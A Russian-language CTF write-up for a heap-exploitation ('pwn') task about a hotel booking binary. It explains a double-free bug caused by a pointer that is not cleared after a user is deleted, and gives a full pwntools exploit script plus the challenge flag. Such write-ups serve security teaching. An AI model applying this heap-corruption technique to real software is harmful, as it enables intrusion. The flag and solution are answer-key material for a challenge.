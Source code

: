 #  В отеле | medium | pwn

## Информация
> Герой заходит в гостиницу, рассчитывая использовать свои навыки социальной инженерии, чтобы убедить сотрудницу на ресепшене выдать номер без бронирования. Однако её ответы были чёткими и отточенными, а попытки убедить оказались безуспешными. Тем не менее, герой узнаёт, что существует некий универсальный код бронирования, доступный только менеджеру. Этот код можно использовать для заселения в номер без предварительного подтверждения. Взглянув в угол холла, он замечает экран с надписью: "Онлайн-поддержка." Посмотрим, что он может с этим сделать...


## Выдать участникам
файл [hotel](public/hotel)

## Описание
Для решения надо заметить, что не происходит обнуления указателя после удаления пользователя.

## Решение
Открываем бинарь, изучаем поведение и все функции. Находим место где выводится флаг.

![alt text](solve/image.png)

**(Функция read_secret)**

Видим, что эта функция проверяет какое-то поле у curr_user и если оно равно 31337, то выводит флаг.

Значит нужно каким-то образом записать туда это значение.

Проанализировав все функции, можно заметить, что после удаления текущий юзер не обнуляется, а значит мы можем повторно его удалить. Имеем уязвимость double free

![alt text](solve/image-1.png)

**(Уязвимая функция)**

Также в эксплуатации нам поможет функция write_msg (она позволяет аллоцировать чанк любой длины, а затем записать туда что-то)

Алгоритм нашей атаки будет следующий: 

1. Используем double free (то есть очищаем один чанк два раза)
2. Выделяем чанк через write_msg такого же размера, как и структура User
3. Записываем туда наши данные (31337)
4. Получаем флаг

Полное решение:

```python
from pwn import *


s = process("./hotel")

for i in range(9):
    s.recvuntil(b"> ")
    s.sendline(b"2")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())

for i in range(7):
    s.recvuntil(b"> ")
    s.sendline(b"1")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b"> ")
    s.sendline(b"3")
    s.recvuntil(b"> ")
    s.sendline(b"4")

i = 7
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

i = 8
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

i = 7
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b"> ")
s.sendline(b"3")
s.recvuntil(b"> ")
s.sendline(b"4")

for i in range(50, 50+7):
    s.recvuntil(b"> ")
    s.sendline(b"2")
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())
    s.recvuntil(b": ")
    s.sendline(f"{i}".encode())

i = 123
s.recvuntil(b"> ")
s.sendline(b"2")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

i = 456
s.recvuntil(b"> ")
s.sendline(b"2")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

i = 123
s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{i}".encode())
s.recvuntil(b": ")
s.sendline(f"{i}".encode())

s.recvuntil(b"> ")
s.sendline(b"1")
s.recvuntil(b": ")
s.sendline(f"{40}".encode())
s.recvuntil(b": ")
s.sendline(b"A" * 16 + p64(31337))

s.interactive()
```

## Флаг
`PolyCTF{D0Ubl3_r00m_f4r_yoU_S1R}`
